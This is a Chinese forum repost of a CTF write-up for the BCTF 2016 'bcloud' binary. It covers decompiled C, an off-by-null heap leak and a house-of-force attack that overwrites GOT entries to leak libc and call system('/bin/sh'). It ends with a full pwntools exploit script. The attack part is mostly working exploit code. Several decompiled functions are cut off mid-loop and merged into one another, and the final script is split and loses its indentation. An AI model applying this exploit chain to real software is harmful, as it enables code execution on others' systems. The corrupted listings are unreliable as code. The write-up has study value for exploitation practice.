# [CTF] BCTF 2016 bcloud

- 原帖: <https://www.52pojie.cn/forum.php?mod=viewthread&tid=1836790>
- 抓取时间: 2026-11-01T22:45:11

## 检查文件



`图片.png` (55.6 KB, 下载次数: 0)

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NDUyNHw3NTdhMTczOHwxNzkzNTczMTA5fDE2ODA4NnwxODM2Nzkw&nothumb=yes)

1

2023-9-21 14:05 上传

ELF32小端文件。



`图片.png` (92.06 KB, 下载次数: 3)

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NDUyNXw1ODA3ZDg3MXwxNzkzNTczMTA5fDE2ODA4NnwxODM2Nzkw&nothumb=yes)

2

2023-9-21 14:06 上传

除了 PIE 保护全开。



`图片.png` (71.42 KB, 下载次数: 2)

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NDUyN3wyZWNmOWNmOXwxNzkzNTczMTA5fDE2ODA4NnwxODM2Nzkw&nothumb=yes)

3

2023-9-21 14:10 上传



`图片.png` (60.73 KB, 下载次数: 3)

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NDUyOXxkOThhODg1OXwxNzkzNTczMTA5fDE2ODA4NnwxODM2Nzkw&nothumb=yes)

4

2023-9-21 14:12 上传

改为`glibc2.23`。

## 试运行



`图片.png` (125.8 KB, 下载次数: 2)

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NDUzMHw0YjI2NGNkYnwxNzkzNTczMTA5fDE2ODA4NnwxODM2Nzkw&nothumb=yes)

5

2023-9-21 14:12 上传

## 逆向分析

```c
/* main() 函数 */

void __cdecl __noreturn main()
{
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  wel();
  while ( 1 )
  {
    switch ( get_choice() )
    {
      case 1:
        New();
        break;
      case 2:
        Show();
        break;
      case 3:
        Edit();
        break;
      case 4:
        Del();
        break;
      case 5:
        Syn();
        break;
      case 6:
        Exit();
      default:
        Invalid();
        break;
    }
  }
}
```

```c
/* welcome 函数 */

int welcome()

{

  get_name();

  return get_org_host();

}

/* get_name() 函数 */

unsigned int sub_80487A1()

{

  char str[64]; // [esp+1Ch] [ebp-5Ch] BYREF

  char *heap; // [esp+5Ch] [ebp-1Ch]

  unsigned int v3; // [esp+6Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);

  memset(str, 0, 0x50u);

  puts("Input your name:");

  OffByNull((int)str, 0x40, '\n');

  heap = (char *)malloc(0x40u); // 如果str读取0x40大小内容，会导致粘连复制。

  dword_804B0CC = (int)heap;

  strcpy(heap, str);

  hello(heap);

  return __readgsdword(0x14u) ^ v3;

}

/* get_org_host() 函数 */

unsigned int get_org_host()

{

  char str_1[64]; // [esp+1Ch] [ebp-9Ch] BYREF // 依然存在粘连复制

  char *heap_1; // [esp+5Ch] [ebp-5Ch]

  char str_2[68]; // [esp+60h] [ebp-58h] BYREF

  char *heap_2; // [esp+A4h] [ebp-14h]

  unsigned int v5; // [esp+ACh] [ebp-Ch]

  v5 = __readgsdword(0x14u);

  memset(str_1, 0, 0x90u);

  puts("Org:");

  OffByNull((int)str_1, 0x40, '\n');

  puts("Host:");

  OffByNull((int)str_2, 0x40, '\n');

  heap_2 = (char *)malloc(0x40u);

  heap_1 = (char *)malloc(0x40u);

  dword_804B0C8 = (int)heap_1;

  dword_804B148 = (int)heap_2;

  strcpy(heap_2, str_2);

  strcpy(heap_1, str_1);

  puts("OKay! Enjoy:)");

  return __readgsdword(0x14u) ^ v5;

}

/* OffByNull() 函数 */

int __cdecl OffByNull(int a1, int a2, char a3)

{

  char buf; // [esp+1Bh] [ebp-Dh] BYREF

  int i; // [esp+1Ch] [ebp-Ch]

  for ( i = 0; i 
```

```c
/* new() 函数 */
int New()
{
  int result; // eax
  int i; // [esp+18h] [ebp-10h]
  int size; // [esp+1Ch] [ebp-Ch]

  for ( i = 0; i = 10 )
    return puts("Invalid ID.");
  v2 = heap_list[idx];
  if ( !v2 )
    return puts("Note has been deleted.");
  v3 = size_list[idx];
  dword_804B0E0[idx] = 0;
  puts("Input the new content:");
  OffByNull(v2, v3, '\n');
  return puts("Edit success.");
}
/* del() 函数 */
int Del()
{
  unsigned int idx; // [esp+18h] [ebp-10h]
  void *ptr; // [esp+1Ch] [ebp-Ch]

  puts("Input the id:");
  idx = get_num();
  if ( idx >= 0xA )
    return puts("Invalid ID.");
  ptr = (void *)heap_list[idx];
  if ( !ptr )
    return puts("Note has been deleted.");
  heap_list[idx] = 0;
  size_list[idx] = 0;
  free(ptr);
  return puts("Delete success.");
}
/* Syn() 函数 */
int Syn()
{
  int i; // [esp+1Ch] [ebp-Ch]

  puts("Syncing...");
  for ( i = 0; i 
```

### 2> 漏洞分析

利用 `welcome()` 函数的漏洞实现 house of force。

### 3> 前置脚本

```python
from pwn import *

context.arch='i386'

context.os='linux'

context.log_level='debug'

context.terminal=['tmux', 'splitw', '-h']

ptr_array = 0x804b120

free_got = 0x804b014

puts_plt = 0x8048520

printf_got = 0x804b010

is_debug = True

is_local = True

def connect():

    global elf, libc, sh

    elf = ELF('./bcloud')

    libc = ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_i386/libc-2.23.so')

    if is_local:

        sh = process('./bcloud')

def debug(gdbscript=""):

    if is_debug:

        gdb.attach(sh, gdbscript=gdbscript)

        pause()

    else:

        pass

def new_note(size, content):

    sh.sendlineafter(b"option--->>\n", str(1).encode())

    sh.sendlineafter(b"Input the length of the note content:\n", str(size).encode())

    sh.sendlineafter(b"Input the content:\n", content)

    sh.recvline()

def edit_note(idx, content):

    sh.sendlineafter(b"option--->>\n", str(3).encode())

    sh.sendlineafter(b"Input the id:\n", str(idx).encode())

    sh.sendlineafter(b"Input the new content:\n", content)

    sh.recvline()

def del_note(idx):

    sh.sendlineafter(b"option--->>\n", str(4).encode())

    sh.sendlineafter(b"Input the id:\n", str(idx).encode())

```

### 3> `leak_heap` & `top_chunk` pivoting


### `leak_heap`

```
def leak_heap():
    global top_chunk_addr

    gdb.attach(sh, 'b *0x08048815')
    sh.sendafter(b"Input your name:\n", b'a' * 0x40)
    pause()

    sh.recvuntil(b'a' * 0x40)
    leak_heap_addr = u32(sh.recvn(4))
    log.success('leak_heap_addr : 0x%x' % leak_heap_addr)

    gdb.attach(sh, 'b *0x0804897D')
    sh.sendafter(b"Org:\n", b'a' * 0x40)
    sh.sendafter(b"Host:\n", p32(0xffffffff) + (0x40 - 4) * b'b')
    sh.recvuntil(b"OKay! Enjoy:)\n")
    top_chunk_addr = leak_heap_addr + 0xd0
    pause()
```



`get_name()` 函数栈布局如上。我们先会向 `str` 变量读取 `0x40` 大小的内容，然后 `off-by-null` 会将 `heap` 指针内容置零。





之后 `heap` 会指向新申请的 `0x40` 大小空间，将终结符 `'\x00'` 覆盖掉。在 `heap` 之后又一个 `/x00` 截断，此时会将 `heap` 指向的地址复制到 `top_chunk_prev_size` 位置。打印会把它连带打印出来。



读入前后图。读入后，第一次 `strcpy` 没什么用，只是将 `str_2` 内容复制到 `heap_2` 指针指向处，第二次 `strcpy` 将会把 `top_chunk_size` 改为 `0xffffffff`。





第二次 `strcpy` 后图。

### `leak_libc`

```
def leak_libc():

    global printf_addr

    margin = ptr_array - top_chunk_addr

    log.info("margin : 0x%x" % margin)

    new_note(margin - 0x4 - 0x4*4, b"") # 0 对齐

    new_note(0x40, b'a'*3) # 1

    new_note(0x40, b'b'*3) # 2

    new_note(0x40, b'c'*3) # 3

    new_note(0x40, b'd'*3) # 4

    #debug()

    edit_note(1, p32(0x804b120) * 2 + p32(free_got) + p32(printf_got))

    #debug()

    edit_note(2, p32(puts_plt))

    #debug()

    del_note(3)

    msg = sh.recvuntil(b"Delete success.\n")

    printf_addr = u32(msg[:4])

    log.success('printf_addr : 0x%x', printf_addr)
```



因为 `top_chunk` 距离 `heap_list` 数组有 `0xd3efb8` (每个人不一样)距离，不是对其的地址。`top_chunk` 对齐后会 `+0x4`(对齐) `+0x44`(两个head) 大小。



接下来申请 4 个 `0x44_algin_0x48` 大小的 chunk。会从 `top_chunk==heap_list` 开始分配。`heap_list[0]` 会被填充为 `'a'3` (注意 `'\x00'`)。利用 `heap_list[1]` 可以达到任意地址写和泄露的作用。





将 `heap_list[2] = free_got`，`heap_list[3] = printf_got`。然后修改 `heap_list[2] == free_got = puts_plt`。释放 3 将 `printf_got` 表里的内容泄露出来，从而得到 `libc` 地址。

### `get_shell`

```
def get_shell():
    libc_base = printf_addr - libc.symbols['printf']
    system_addr = libc_base + libc.symbols['system']
    str_bin_sh = libc_base + next(libc.search(b'/bin/sh\x00'))
    log.success("str_bin_sh : 0x%x" % str_bin_sh)
    edit_note(1, p32(str_bin_sh) * 2 + p32(free_got))
    edit_note(2, p32(system_addr))
    del_note(0)
```

同理，将 `free_got` 改为 `system` 地址，将 `heap_list[0]` 指向存有 `b'/bin/sh\x00'` 的地址。然后 `del(0)` 即可 `get_shell`。



### `exp`

```
from pwn import *

context.arch='i386'

context.os='linux'

context.log_level='debug'

context.terminal=['tmux', 'splitw', '-h']

ptr_array = 0x804b120

free_got = 0x804b014

puts_plt = 0x8048520

printf_got = 0x804b010

is_debug = True

is_local = True

def connect():

    global elf, libc, sh

    elf = ELF('./bcloud')

    libc = ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_i386/libc-2.23.so')

    if is_local:

        sh = process('./bcloud')

def debug(gdbscript=""):

    if is_debug:

        gdb.attach(sh, gdbscript=gdbscript)

        pause()

    else:

        pass

def new_note(size, content):

    sh.sendlineafter(b"option--->>\n", str(1).encode())

    sh.sendlineafter(b"Input the length of the note content:\n", str(size).encode())

    sh.sendlineafter(b"Input the content:\n", content)

    sh.recvline()

def edit_note(idx, content):

    sh.sendlineafter(b"option--->>\n", str(3).encode())

    sh.sendlineafter(b"Input the id:\n", str(idx).encode())

    sh.sendlineafter(b"Input the new content:\n", content)

    sh.recvline()

def del_note(idx):

    sh.sendlineafter(b"option--->>\n", str(4).encode())

    sh.sendlineafter(b"Input the id:\n", str(idx).encode())

def leak_heap():

    global top_chunk_addr

    #gdb.attach(sh, 'b *0x08048815')

    sh.sendafter(b"Input your name:\n", b'a' * 0x40)

    #pause()

    sh.recvuntil(b'a' * 0x40)

    leak_heap_addr = u32(sh.recvn(4))

    log.success('leak_heap_addr : 0x%x' % leak_heap_addr)

    #gdb.attach(sh, 'b *0x0804897D')

    sh.sendafter(b"Org:\n", b'a' * 0x40)

    sh.sendafter(b"Host:\n", p32(0xffffffff) + (0x40 - 4) * b'b')
```


```python
sh.recvuntil(b"OKay! Enjoy:)\n")

top_chunk_addr = leak_heap_addr + 0xd0

#pause()

def leak_libc():
    global printf_addr
    margin = ptr_array - top_chunk_addr
    log.info("margin : 0x%x" % margin)
    new_note(margin - 0x4 - 0x4*4, b"") # 0 对齐
    new_note(0x40, b'a'*3) # 1
    new_note(0x40, b'b'*3) # 2
    new_note(0x40, b'c'*3) # 3
    new_note(0x40, b'd'*3) # 4
    #debug()
    edit_note(1, p32(0x804b120) * 2 + p32(free_got) + p32(printf_got))
    #debug()
    edit_note(2, p32(puts_plt))
    #debug()
    del_note(3)
    msg = sh.recvuntil(b"Delete success.\n")
    printf_addr = u32(msg[:4])
    log.success('printf_addr : 0x%x', printf_addr)

def get_shell():
    libc_base = printf_addr - libc.symbols['printf']
    system_addr = libc_base + libc.symbols['system']
    str_bin_sh = libc_base + next(libc.search(b'/bin/sh\x00'))
    log.success("str_bin_sh : 0x%x" % str_bin_sh)
    edit_note(1, p32(str_bin_sh) * 2 + p32(free_got))
    edit_note(2, p32(system_addr))
    del_note(0)

def pwn():
    connect()
    leak_heap()
    leak_libc()
    get_shell()
    sh.interactive()

if __name__ == '__main__':
    pwn()
```
